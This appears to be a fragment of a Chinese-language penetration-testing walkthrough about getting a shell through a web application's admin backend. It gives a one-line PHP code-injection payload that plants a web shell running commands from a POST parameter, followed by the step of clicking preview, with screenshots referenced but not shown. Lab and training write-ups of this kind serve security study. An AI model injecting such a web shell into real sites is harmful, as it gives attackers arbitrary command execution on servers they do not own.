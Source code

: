 后台拿 shell ，类似于代码注入吧

<img src=".\图片\Snipaste_2023-08-09_12-07-05.png" alt="Snipaste_2023-08-09_12-07-05" style="zoom:67%;" />

```
11";}<?php system($_POST[a]);?>
```

提交后点击 预览

<img src=".\图片\Snipaste_2023-08-09_12-20-47.png" alt="Snipaste_2023-08-09_12-20-47" style="zoom:67%;" />
